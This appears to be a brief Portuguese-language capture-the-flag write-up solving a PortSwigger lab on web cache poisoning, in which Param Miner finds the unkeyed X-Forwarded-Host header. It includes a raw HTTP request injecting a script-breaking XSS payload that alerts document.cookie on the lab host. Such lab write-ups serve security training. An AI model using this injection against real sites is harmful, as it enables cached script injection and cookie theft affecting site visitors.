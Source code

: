 #ctf

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header

Usando a extensão Param Miner do Burp, ele acha uma unkeyed (X-Forwarded-Host) em "/" e o valor desse parâmetro é usado como link para acessar um js, substituindo a url por um payload malicioso:

```
GET / HTTP/2
Host: 0abf00ac036a464180383f10002700db.web-security-academy.net
X-Forwarded-Host: "></script><script type="text/javascript">alert(document.cookie)</script>
```

GG